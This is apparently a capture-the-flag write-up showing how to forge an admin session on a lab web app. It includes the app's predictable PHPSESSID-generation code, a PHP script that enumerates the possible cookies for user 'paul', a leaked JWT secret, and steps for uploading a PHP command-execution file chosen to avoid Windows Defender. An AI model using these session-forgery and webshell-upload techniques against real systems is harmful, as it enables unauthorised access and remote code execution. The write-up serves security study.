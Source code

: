 # Getting initial reverse shell as www-data
## Generating cookie for paul as admin user to upload files
Note: Only paul as admin user can upload files and access file upload page. Cookie is composed of two portions `PHPSESSID` and `JWT Token`.
Source code for generating `PHPSESSID` portion of  cookie is.
```php
<?php
\/**
 * @param string $username  Username requesting session cookie
 *
 * @return string $session_cookie Returns the generated cookie
 *
 * @devteam
 * Please DO NOT use default PHPSESSID; our security team says they are predictable.
 * CHANGE SECOND PART OF MD5 KEY EVERY WEEK
 * *\/
function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
```
We can write php script to generate `PHPSESSID` portion of cookie for paul.
```php
<?php
$name = "paul";
function makesession($username,$seed){
    $max = strlen($username) - 1;
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;
}
for($i = 0;$i < strlen($name); $i++){
    echo makesession($name,$i). "\xA";
}
```
Which gives following `PHPSESSID`.
```bash
paula2a6a014d3bee04d7df8d5837d62e8c5
paul61ff9d4aaefe6bdf45681678ba89ff9d
paul8c8808867b53c49777fe5559164708c3
paul47200b180ccd6835d25d034eeb6e6390
```
We also need JWT token as paul cookie which can be generated via following website having secret key as `6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e`(found in `portal/includes/filecontroller.php`). Webiste for generating [JWT Token](https://jwt.io/).
![[Pasted image 20210730114707.png]]
## Logging in as  paul admin and accessing file upload page
Logged in as paul admin user using paul cookie.
![[Pasted image 20210730115238.png]]
Only paul ad admin user can access file upload page , normal user will be redirected to index page. So file upload page is.
![[Pasted image 20210730115450.png]]
## Uploading php file to execute system commands
In php file to be uploaded for Remote Code Execution, `shell_exec` command will be used instead of `SYSTEM` command as `SYSTEM` command will flagged by Windows Defender.
![[Pasted image 20210730115851.png]]
File which was uploaded has reflected in uploads folder.
![[Pasted image 20210730120009.png]]

